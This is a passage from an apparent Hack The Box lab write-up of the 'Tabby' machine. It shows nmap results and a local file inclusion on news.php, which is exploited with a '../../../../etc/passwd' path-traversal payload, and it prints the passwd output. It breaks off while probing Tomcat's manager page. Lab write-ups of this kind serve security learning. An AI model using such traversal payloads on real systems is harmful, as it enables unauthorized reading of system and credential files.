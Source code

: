 ```yaml
---
title: "Tabby from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Tabby from HTB

`nmap` Gave this:
```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp  open     http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
```
First access the `80` port with `IP` and after clicking things we find this redirect link, so we have to add this to `/etc/hosts`
```
10.10.10.194 megahosting.htb
```
The URL is like this
```
http://megahosting.htb/news.php?file=statement
```
Which indicates that there may be possible to do `LFI`, that means we can read another files like `/etc/passwd`, so we have to try ways
I guess the file `statement` will be located in `/var/www/html` or one directory above.
Trying `../../../etc/passwd` gave nothing so lets do going back 4 directories `../../../../etc/passwd`
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false tomcat:x:997:997::/opt/tomcat:/bin/false mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false ash:x:1000:1000:clive:/home/ash:/bin/bash
```
So we can read files now.
Now access the `8080` PORT
accessing [http://10.10.10.194:8080/manager/html] it tells us to authorize and clicking `cancel` tells us this
```
```
